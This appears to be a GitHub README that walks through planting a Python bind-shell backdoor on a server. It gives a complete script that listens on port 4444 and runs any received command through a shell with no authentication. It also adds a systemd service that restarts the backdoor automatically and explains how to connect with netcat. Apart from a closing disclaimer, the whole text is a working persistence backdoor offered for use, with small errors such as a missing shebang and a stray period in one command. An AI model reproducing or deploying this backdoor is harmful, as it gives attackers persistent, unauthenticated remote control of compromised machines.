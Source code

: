 # Python Bind Shell on Server

## Introduction

This guide demonstrates how to set up a Python bind shell backdooe on a server and connect to it using `netcat` from remote machine.

## Steps

### 1. Create a Python Bind Shell Script

create file using ```sudo nano /usr/local/bin/bind_shell.py```
Create a Python script (e.g., `bind_shell.py`) with the following content:

```python
import socket
import subprocess

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
s.bind(("0.0.0.0", 4444))
s.listen(1)

print("Listening for incoming connections...")

while True:
    conn, addr = s.accept()
    print(f"Connection from {addr}")
    
    while True:
        command = conn.recv(1024).decode()
        if not command:
            break
        
        process = subprocess.Popen(command, shell=True, stdout=subprocess.PIPE, stderr=subprocess.PIPE, stdin=subprocess.PIPE)
        output = process.stdout.read() + process.stderr.read()
        conn.sendall(output)

conn.close()
```
## Save the file and make it executable:
``` sudo chmod +x /usr/local/bin/bind_shell.py ```

## Now, let's create a systemd service file for the bind shell:
```sudo nano /etc/systemd/system/bind-shell.service``` Add the following content: 
```
[Unit]
Description=Bind Shell Service
After=network.target

[Service]
ExecStart=/usr/local/bin/bind_shell.py
Restart=always

[Install]
WantedBy=multi-user.target
```
Save the file and exit the text editor. Reload the systemd daemon and start the service:
```bash
sudo systemctl daemon-reload. 
sudo systemctl start bind-shell
```
Check the status:
``` sudo systemctl status bind-shell ```

connect using: ```nc <server_ip> 4444```

This should create a bind shell service using systemd. Make sure to secure your bind shell service properly, as it can pose security risks and alerting.

## ⚠️ By using or contributing to this project, you agree to abide by ethical standards and legal regulations. The project owners and contributors are not responsible for any misuse of the code.
